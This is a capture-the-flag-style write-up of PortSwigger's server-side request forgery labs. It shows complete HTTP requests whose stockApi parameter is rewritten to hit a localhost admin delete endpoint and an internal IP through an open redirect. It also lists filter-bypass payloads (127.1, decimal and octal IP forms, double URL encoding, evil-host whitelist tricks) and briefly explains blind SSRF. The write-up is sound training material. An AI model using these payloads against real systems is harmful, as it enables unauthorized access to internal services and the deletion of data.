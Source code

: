 ```yaml
---
title: PortSwigger | Server Side Request Forgery
date: '2024-05-10'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


#### Basic SSRF against the local server
This is a very simple lab. The following request contains an ssrf vulnerability :
```http
POST /product/stock HTTP/2
Host: 0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Cookie: session=512svTNLynrTWILxUFFWzCa1E5YOIxny
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Change it to :

```http
POST /product/stock HTTP/2
Host: 0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Cookie: session=512svTNLynrTWILxUFFWzCa1E5YOIxny
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://localhost/admin/delete?username=carlos
```

#### Basic SSRF against another back-end system

In this lab we don't know the exact IP address where the admin interface is hosted, so we try to send the request to intruder and enumerate the last octet of the IP address. Based on the responses we will know the correct IP address.


#### SSRF with blacklist-based input filter
Use the following
- `127.0.0.1`
- `2130706433`
- `017700000001`
- `127.1`
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.

We try `http://127.0.0.1` , it does not work. `http://127.1/admin` still nothing.
double Url encoding helps us bypass blacklist : `http://127.1/%2561dmin`

```http
POST /product/stock HTTP/2
Host: 0afb00d5041978db80486268009b00eb.web-security-academy.net
Cookie: session=ZBpeHMBlmyUuCjKLeM3sPdnjVqFu7fL3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afb00d5041978db80486268009b00eb.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://0afb00d5041978db80486268009b00eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://127.1/%2561dmin/delete?username=carlos
```

#### SSRF with whitelist-based input filter
- `https://expected-host:fakepassword@evil-host`
- `https://evil-host#expected-host`
- `https://expected-host.evil-host`
- We can also url encode characters
- Try double encoding


First we try
`127.0.0.1`
`http://username@stock.weliketoshop.net/`
`http://username#@stock.weliketoshop.net` gets 500 indicating server tried to process it
`http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`

```http
POST /product/stock HTTP/2
Host: 0abf00f103d094638071e98800b80003.web-security-academy.net
Cookie: session=qUtEdcYQ2iug1VhMOV2FBBTKSYIay0Qy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abf00f103d094638071e98800b80003.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: https://0abf00f103d094638071e98800b80003.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

#### SSRF with filter bypass via open redirection vulnerability
The parameter `path` is vulnerable to open redirection


```http
POST /product/stock HTTP/2
Host: 0a3f000304fbb6608052677b00d500d9.web-security-academy.net
Cookie: session=JkfUpvwXo2g8Ycg6pLD0pHNfdeNtQXWl
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3f000304fbb6608052677b00d500d9.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Origin: https://0a3f000304fbb6608052677b00d500d9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos
```



---

# Blind SSRF

When the response of a SSRF vulnerability is not received on attackers end. It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

